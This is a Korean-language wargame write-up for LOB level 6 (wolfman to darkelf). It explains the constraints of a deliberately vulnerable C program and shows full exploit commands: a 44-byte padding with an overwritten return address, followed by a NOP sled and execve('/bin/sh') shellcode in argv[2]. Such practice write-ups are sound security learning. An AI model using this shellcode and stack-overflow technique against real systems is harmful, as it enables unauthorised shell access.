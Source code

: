 ```yaml
---
title:  "[LOB] level 6: wolfman >> darkelf "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 12:20:14

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 6

**wolfman / love eyuna**

darkelf.c 코드 읽기  

![image](https://user-images.githubusercontent.com/69203345/147071971-686cea5b-c3d8-4ece-b763-009eb8b96575.png)

환경변수 사용 불가능 (egghunter)  
버퍼에 입력 불가능 (buffer hunter)  
argv[1]의 48번째 바이트는 '\xbf'여야 함  
argv[1] 길이 48 초과 불가능
흠
level5에서 한것처럼 하지만 argv[2]를 이용해서 함  

level5 사용
argv[1] = 'print "\x90"*44+RET'  
이번에 사용  
argv[2] = 'python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

지금까지와 다른게 뭐냐?? 싶지만 나중에 사용할때 보면 이전에 사용한 것들과는 다를겁니다

추가 된 코드들이 많으니 한번쯤 정리를하고 넘어가야 안헷갈릴거 같으니까 간단하게 정리 한번하고간다

strcpy에서 argv[1]의 값이 buffer에 입력된다.  
하지만 buffer가 지워져도 argv[1]에는 입력했던 값이 남아있고  
buffer는 지워졌지만 ret에 우리가 원하는 주소는 남아있으니 bof가 일어날 것이다 

>./darkelf \`python -c 'print "A"\*44+"\xff\xff\xff\xbf"'` `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147091504-1d65e37b-b015-4a5e-a478-e6c50109bdf3.png)

0xbffffc30으로 리턴주소 설정할 예정  

>./darkelf \`python -c 'print "A"\*44+"\x30\xfc\xff\xbf"'` `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147091834-a68d0b5f-1043-45da-8aeb-c87cca17f4ee.png)